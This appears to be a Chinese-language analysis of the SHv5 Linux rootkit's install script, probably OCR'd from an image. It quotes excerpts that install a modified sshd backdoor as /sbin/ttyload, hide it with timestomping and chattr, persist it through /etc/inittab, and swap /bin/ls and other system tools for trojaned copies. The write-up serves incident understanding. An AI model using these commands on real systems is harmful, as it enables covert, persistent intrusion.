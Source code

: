 	# [*] SH-friends: mave, AlexTG, Cat|x, klex, JinkS ...
	# [*] tC-members: eksol, termid, hex, keyhook, maher, tripod etc..
	# [*] And all others who diserve to be here but i forgot
	# [*] them at the moment !
	# 
	# PRIVATE ! DO NOT DISTRIBUTE *censored*EZ !

"setup"这个脚本是rootkit shv5的安装脚本.它安装了一个修改过的ssh后门--"/bin/ttyload",然后把它加到了"/etc/inittab",这样每次重启后就会自动启动.(相关部分的脚本如下:)

	mv $SSHDIR/sshd /sbin/ttyload
	chmod a+xr /sbin/ttyload
	chmod o-w /sbin/ttyload
	touch -acmr /bin/ls /sbin/ttyload
	chattr +isa /sbin/ttyload
	kill -9 `pidof ttyload` >/dev/null 2>&1
	....
	# INITTAB SHUFFLING
	chattr -isa /etc/inittab
	cat /etc/inittab |grep -v ttyload|grep -v getty > /tmp/.init1
	cat /etc/inittab |grep getty > /tmp/.init2
	echo "# Loading standard ttys" >> /tmp/.init1
	echo "0:2345:once:/usr/sbin/ttyload" >> /tmp/.init1

它也替换了一些linux的标准命令.

	# Backdoor ps/top/du/ls/netstat/etc..
	cd $BASEDIR/bin
	BACKUP=/usr/lib/libsh/.backup
	mkdir $BACKUP
	...
	# ls ...
	chattr -isa /bin/ls
	cp /bin/ls $BACKUP
	mv -f ls /bin/ls
	chattr +isa /bin/ls

这样子就可以解释为什么"ls"命令输出那么奇怪了.

".backup"文件夹保存了被替换之前的命令程序.
